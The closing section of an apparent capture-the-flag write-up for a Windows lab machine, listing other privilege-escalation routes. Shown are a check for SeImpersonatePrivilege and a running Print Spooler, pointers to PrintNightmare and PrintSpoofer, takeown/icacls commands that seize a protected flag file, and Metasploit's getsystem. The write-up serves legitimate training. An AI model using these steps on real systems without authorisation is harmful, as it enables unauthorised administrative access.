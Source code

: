 That room was cool!
You would think a clinic/hospital would not be a target for hackers? that's so 2010!
using an open source software doesnt mean you can neglect security!

## Extra

To go further, it seems there were some...less-intended ways to privesc!
First, if you check the privileges you see this:

```bash
c:\Users\Nekrotic\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name             Description                                State
=============================================================================

...

SeImpersonatePrivilege  Impersonate a client after authentication    Enabled

...

```

I redacted the mad-long output so you can just get my point!
The printer spooler service is (almost) always running

```bash
C:\Users\Nekrotic\Desktop>powershell Get-Service -Name Spooler
powershell Get-Service -Name Spooler


Status   Name               DisplayName
------   ----               -----------
Running  Spooler            Print Spooler
```
Now you got everything for a [PrintNightmare](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) or [PrinterSpoofer](https://github.com/itm4n/PrintSpoofer)


Next we got the ownership abuse in powershell to read the flag

```bash
takeown /R /F *.*
icacls "root.txt" /q /c /t /grant Users:F
```

This doesnt make you system, but hey...you got the flag
And last but not least...if you used metasploit

`getsystem`

Yeah that's all it takes with metasploit! one.fricking.command!
Metasploit makes things look so easy! lol
I don't know if there are other methods but feel free to look for them!

Take care!
